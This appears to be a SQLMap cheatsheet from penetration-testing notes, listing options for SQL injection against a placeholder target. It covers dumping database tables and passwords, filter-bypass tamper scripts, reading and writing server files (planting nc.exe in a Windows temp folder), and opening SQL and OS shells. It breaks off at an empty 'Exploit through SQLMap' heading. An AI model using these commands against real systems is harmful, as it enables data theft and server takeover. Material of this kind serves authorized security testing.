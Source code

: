 ## SQLMap Cheatsheet

```
[+] fine tune the configuration
===============================
verbose SQL payload send: -v 3
request send through proxy: --proxy "http://127.0.0.1:8080"
supply entire request body through a file: -r burp-captured-request.txt
data send through GET request: --url "http://www.target.com/vuln.php?id=100"
data sent through POST request: --url "http://www.target.com/vuln.php" --data "id=100,state=CA"
exclude parametes: --skip=user-agent,referer
specific testable parameter: -p "id", "user-agent"

[+] speed up the process
========================
providing the database name if already known: --dbms=mysql
avoid time based technique and only use union based technique:
	--technique=U
	--union-cols=7-10 => setting the nos of column

Inject payload prefix string: --prefix=PREFIX, Example: --prefix="'" => single quote to speed up the process
Inject payload suffix string: --suffix=SUFFIX, Example: --suffix= " # "


[+] exploitation
================
Database fingerprint and banner grabbing: --banner, use -f to perform extensive DBMS version fingerprint
Extract current database: --current-db
Extract tables from current database: --dump -D <database_name> --tables <table_names>
Checking DB admin role: --is-dba
DB Enumeration: --users --passwords --privileges -- roles --dbs--tables --schema

Dump all DBMS table entries: --dump-all, Alternate - Use -a to retrive all, Output saved in /root/.sqlmap/output
Bypassing banned characters ( > character, spaces and capital SELECT string): --tamper=between,randomcase,space2comment

Read a file from DB file system: --file-read 'C:/example.exe'
Write a file to the DB file system: --file-write '/software/nc.exe.packed' --file-dest 'C:/WINDOWS/Temp/nc.exe'
SQL statement to be executed: --sql-query=QUERY
Execute SQL statements from a given file: --sql-file=SQLFILE

Prompt for an interactive shell: --sql-shell
Prompt for a interactive OS shell: --os-shell
Execute OS command: --os-cmd=OSCMD
```

### Exploit through SQLMap
